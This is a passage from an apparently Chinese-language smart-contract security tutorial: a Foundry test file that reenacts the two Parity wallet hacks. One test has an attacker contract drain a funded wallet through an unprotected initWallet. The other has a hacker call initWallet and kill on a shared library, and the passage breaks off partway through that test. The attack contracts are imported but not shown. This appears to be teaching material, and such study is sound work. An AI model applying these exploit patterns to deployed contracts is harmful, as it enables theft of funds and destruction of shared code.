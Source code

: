 ### 6.6 测试 ParityHack.t.sol 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import "../src/VulnerableWallet.sol";
import "../src/WalletAttacker.sol";
import "../src/WalletLibrary.sol";
import "../src/WalletProxy.sol";
import "../src/ParityAttacker.sol";

contract ParityHackTest is Test {
    address deployer = address(0x123);
    address hacker = address(0x234);

    // ---------------------------
    // 7月事故：未保护的 initWallet
    // ---------------------------
    function testJulyHack() public {
        // 确保 deployer 有足够 ETH 供 deposit
        vm.deal(deployer, 200 ether);

        vm.startPrank(deployer);
        VulnerableWallet wallet = new VulnerableWallet();
        wallet.deposit{value: 100 ether}();
        vm.stopPrank();

        vm.startPrank(hacker);
        WalletAttacker attacker = new WalletAttacker(address(wallet));

        emit log_named_uint("Wallet Balance Before", address(wallet).balance);
        emit log_named_uint("Hacker Balance Before", address(hacker).balance);

        attacker.attack();

        emit log_named_uint("Wallet Balance After", address(wallet).balance);
        emit log_named_uint("Hacker Balance After", address(hacker).balance);

        assertEq(address(wallet).balance, 0, "wallet should be drained");
        vm.stopPrank();
    }

    // ---------------------------
    // 11月事故：库被意外销毁
    // ---------------------------
    function testNovemberHack() public {
        vm.startPrank(deployer);
        WalletLibrary lib = new WalletLibrary();
        WalletProxy proxy = new WalletProxy(address(lib));
        vm.stopPrank();

        // proxy 调用 foo() 应该成功
        (bool ok1, bytes memory res1) = address(proxy).call(
            abi.encodeWithSignature("foo()")
        );
        assertTrue(ok1, "call before attack should succeed");
        emit log_string(string(res1));

        // 攻击者直接对库合约调用 initWallet + kill
        vm.startPrank(hacker);
        ParityAttacker attacker = new ParityAttacker(address(lib));
```